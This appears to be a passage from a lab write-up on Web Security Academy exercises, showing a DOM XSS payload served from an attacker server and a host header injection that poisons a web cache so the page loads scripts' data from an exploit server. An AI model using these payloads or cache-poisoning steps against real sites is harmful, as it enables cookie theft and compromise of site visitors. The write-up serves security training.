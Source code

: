 ```js
```

Served the malicious payload on the attacker's server (`/resources/json/geolocate.json`):
```http
HTTP/1.1 200 OK
Content-Type: application/json
Access-Control-Allow-Origin: *

{"country": "<img src=1 onerror=alert(document.cookie)>"}
```
![](../../zzz_res/attachments/DOM-XSS-from-cache.png)

## Host Header Injection + Web Cache Poisoning + Arbitrary Cookie Set + DOM XSS

Discovered a [Host Header Injection](Host%20Header%20attacks.md) causing the server to cache a different host:
```html
GET / HTTP/1.1
Host: 0aca005504fea6bb81c1c683009c0050.web-security-academy.net
x-forwarded-host: exploit-0a2c005f048da6408158c54201190023.exploit-server.net


HTTP/1.1 200 OK
<script>
	data = {
		"host":"exploit-0a2c005f048da6408158c54201190023.exploit-server.net",
		"path":"/",
	}
</script>
...
<script type="text/javascript" src="\resources\js\translations.js"></script>
...
<form>
	<select id=lang-select onchange="((ev) => { ev.currentTarget.parentNode.action = '/setlang/' + ev.target.value; ev.currentTarget.parentNode.submit(); })(event)">
	</select>
</form>
...
<script>
	initTranslations('//' + data.host + '/resources/json/translations.json');
</script>
```
